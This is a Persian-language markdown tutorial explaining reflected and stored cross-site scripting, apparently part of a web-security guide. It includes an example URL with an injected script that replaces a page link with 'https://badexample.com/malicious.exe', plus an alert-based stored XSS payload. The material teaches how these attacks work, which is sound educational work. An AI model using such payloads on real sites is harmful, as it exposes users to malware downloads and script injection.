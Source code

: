 </div>

اگر برنامه در برابر این حمله مقاوم نباشند، اطلاعات مشاهده شده در مرورگر به این صورت خواهد بود:

<p align=center><img  width=586 src="./assets/expURLparam.png"  alt="DOMPurify"/></p>

این حملات ممکن است باعث اجرای فایل‌های آلوده‌ای در دستگاه کاربر بشود.
فرض کنید یک درخواست آلوده به این صورت پیاده کنیم:

<div dir="ltr">

```html
  https://example.com/index.php?user=
<script>window.onload = function () {
    const AllLinks = document.getElementsByTagName("a");
    AllLinks[0].href = "https://badexample.com/malicious.exe";
}</script>
```

</div>

همان‌طور که مشاهده می‌کنید در صورتی که برنامه در برابر این حمله مقاوم نباشد، بجای لینک اصلی، یک لینک آلوده با یک فایل
اجرایی مخرب جایگزین می‌شود.

## Stored XSS

این نوع حمله زمانی اتفاق می‌افتد که دیتاهای تولید شده توسط یک یوزر در دیتابیس ذخیره شده و در زمان مورد نیاز در صفحه لود می‌شوند.

مثال‌هایی برای این شرایط می‌توانند فرم‌ها یا پلاگین‌هایی که برای کامنت گذاری استفاده می‌شوند باشند. این موضوع زمانی خطرناک می‌شود که دیتای تولید شده توسط من توسط کاربران دیگر بتواند دیده شود و به عبارتی توسط آن‌ها مشاهده شده و در صفحه‌اشان لود شود. در این صورت اسکریپت تولید شده توسط کاربر اتک‌کننده بدون رضایت کاربران دیگر برایشان اجرا شده و می‌تواند عواقبی به همراه داشته باشد.

برای مثال فرض کنید در یک سایت هر کاربر قابلیت ایجاد ترد دلخواهش را داشته باشد و این تردها در دیتابیس ذخیره شوند. سپس در صورتی که کاربر دیگری بخواهد از آن ترد دیدن کند، اطلاعات ذخیره شده در دیتابیس در صفحه‌اش لود می‌شود و به او نشان داده می‌شود. یک کاربر حمله‌کننده می‌تواند کدهای حاوی حمله‌ی خود را بین تگ
<div dir="ltr">
  
  ```js
<script></script>
  ```
</div>

قرار دهد و این کد در به‌روزر هر کاربری که آن ترد را مشاهده می‌کند اجرا می‌شود

### مثال
<div dir="ltr">
  
  ```js
  <script>
      alert('You are being attacked by Stored XSS');
  </script>
  ```
</div>


[//]: # (make code block ltr)